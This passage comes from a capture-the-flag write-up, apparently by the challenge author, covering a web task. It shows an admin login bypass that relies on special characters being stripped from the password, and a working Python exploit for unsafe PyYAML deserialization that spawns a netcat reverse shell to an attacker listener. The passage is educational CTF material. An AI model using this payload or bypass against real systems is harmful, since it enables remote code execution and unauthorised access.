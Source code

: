 So if we connect with the following credentials we will takeover the admin account:

```
login: fwordadmin
password: //
```
There is a check that removes special characters so the password will be interpreted as "" at the end.

Now we have access to the admin panel that has a feature that parses docker-compose files (yaml file) so even without reading the source code we can know that is a yaml unsafe deserialization exploit.

The vulnerable code:

```python
def parse(text):
    try:
        res = yaml.load(text, Loader=Loader)
        return res
    except Exception:
        return "An Error has occured"

```

This is my final exploit that spawns a reverse shell:

```python
import yaml,subprocess,requests

class Payload(object):
        def __reduce__(self):
                return (subprocess.Popen,(tuple('nc IP PORT -e /bin/bash'.split(" ")),))
deserialized_data = yaml.dump(Payload())  
data1={"username":"fwordadmin","password":"////"}
print("[+] Payload is: "+deserialized_data)
#yaml.load(deserialized_data,Loader=yaml.Loader)
data2={"service":deserialized_data}
s=requests.Session()
r=s.post("https://useless.fword.wtf/login",data=data1)
if r.status_code==200:
        print("[+] Logged in successfully")
r=s.post("https://useless.fword.wtf/home",data=data2)
print("[+] Shell Spawned, check your listener)

```

I hope you had fun solving this task and learned from it , i tried to inspire it from a project in my internship .

## Otaku (8 solves) 500pts ##

![TASK](https://imgur.com/GduvVgP.png)

This was a Node Js application with its source code as always (i tried to use all known languages in the web tasks xd), opening the website we have a simple login/register page and a home page.
